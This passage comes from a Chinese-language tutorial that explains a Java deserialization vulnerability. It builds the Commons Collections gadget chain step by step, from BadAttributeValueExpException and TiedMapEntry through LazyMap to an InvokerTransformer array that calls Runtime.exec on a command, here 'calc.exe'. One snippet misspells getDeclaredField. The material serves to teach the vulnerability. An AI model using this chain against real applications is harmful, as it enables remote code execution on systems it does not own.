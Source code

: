 那这里的toString中的getValue实际就是this.map.get(this.key)了。很好，将上面两者组合一下，例如这样：

```java
// xxx 代表Transformer类，代表了转换的方式
final Map lazyMap = LazyMap.decorate(new HashMap(), xxx);
TiedMapEntry entry = new TiedMapEntry(lazyMap, "3345");
System.out.println(entry);
```

在进行toString输出时会调用getValue方法，而lazyMap里并没有“3345”这个key，于是便调用了factory.transform()方法。我们再将BadAttributeValueExpException这个类引入进来，因为它里面有我们要的注入点：

```java
BadAttributeValueExpException ve = new BadAttributeValueExpException(null);
// 这里利用一下反射机制访问它的“val”字段
Field field = ve.getClass().getDiclaredField("val");
field.setAccessible(true);
// 将上面的TiedMapEntry赋值给ve对象的val字段
field.set(ve, entry);
```

就像这样，当BadAttributeValueExpException的这个实例在做反序列化时，就会进入第二个else if，从而调用`TiedMapEntry.toString() --> TiedMapEntry.getValue() --> LazyMap.get(non-exist-key) --> Transformer.transform()`，酱紫我们串起了第一个环节。

#### 第二环节

上面串了那么多的调用，为的就是引入Transformer接口类。而与之相关的类还有以下几个：

![](Java反序列化漏洞解析\5.png)

这些类全都实现了抽象接口Transformer，该接口定义了transform方法来决定子类的行为，我们先直接贴出构造好的反射链：

```java
//定义待执行的命令:
String commandstring = "calc.exe";

Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),

    new InvokerTransformer(
        "getMethod",
        new Class[] {String.class, Class[].class},
        new Object[] {"getRuntime", new Class[0] }
    ),
    new InvokerTransformer(
        "invoke",
        new Class[] {Object.class,Object[].class },
        new Object[] {null, new Object[0] }
    ),
    new InvokerTransformer(
        "exec",
        new Class[] {String[].class },
        new Object[] { new String[] {commandstring} }
    )
};

// chainedTransFormer 会调用transform 方法，该方法依次调用转换器数组
```